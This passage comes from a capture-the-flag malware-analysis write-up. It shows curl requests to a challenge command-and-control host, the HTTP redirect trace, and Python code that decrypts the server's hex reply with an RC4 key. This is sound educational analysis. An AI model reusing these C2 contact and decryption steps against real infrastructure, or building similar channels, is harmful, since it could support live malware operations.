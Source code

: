 ### Contacting the C2 Server

Using the encrypted hostname, I contacted the C2 server:

```bash
curl "http://web3status.task.sasc.tf/target?data=a3f54d8e"
```
but it gave no response, so i tried it with verbose (-v):

```bash
curl -v "http://web3status.task.sasc.tf/target?data=a3f54d8e"
```
Response:
```
* Host web3status.task.sasc.tf:80 was resolved.
* IPv6: (none)
* IPv4: 158.160.156.210
*   Trying 158.160.156.210:80...
* Connected to web3status.task.sasc.tf (158.160.156.210) port 80
> GET /target?data=a3f54d8e HTTP/1.1
> Host: web3status.task.sasc.tf
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< location: https://web3status.task.sasc.tf/target?data=a3f54d8e
< date: Sun, 31 Aug 2025 19:51:00 GMT
< server: ycalb
< connection: close
< content-length: 0
<
* shutting down connection #0
```

The server redirected to HTTPS, so I tried:

```bash
curl "https://web3status.task.sasc.tf/target?data=a3f54d8e"
```

**Server Response (encrypted):**
```
e1ee5483a93e17c17915ba7c18ed94b101b472b91cd180f704232b6317ca27f8f7c90f7c2d6c3aa82ba6eda8f90a914c6614e32dddd8e74b0184cb7306c88ec369b22075c6f8c79f66452065d5d1e7857fc897d47f90b4532105f4a9
```

## Analyzing the response

I decrypted the server's response using the same RC4 key:

```python
hex_response = "e1ee5483a93e17c17915ba7c18ed94b101b472b91cd180f704232b6317ca27f8f7c90f7c2d6c3aa82ba6eda8f90a914c6614e32dddd8e74b0184cb7306c88ec369b22075c6f8c79f66452065d5d1e7857fc897d47f90b4532105f4a9"

encrypted_data = bytes.fromhex(hex_response)
key = b"bitcoin4ever"
decrypted = rc4(key, encrypted_data)
print("Decrypted command:")
print(decrypted.decode('utf-8', errors='ignore'))
```
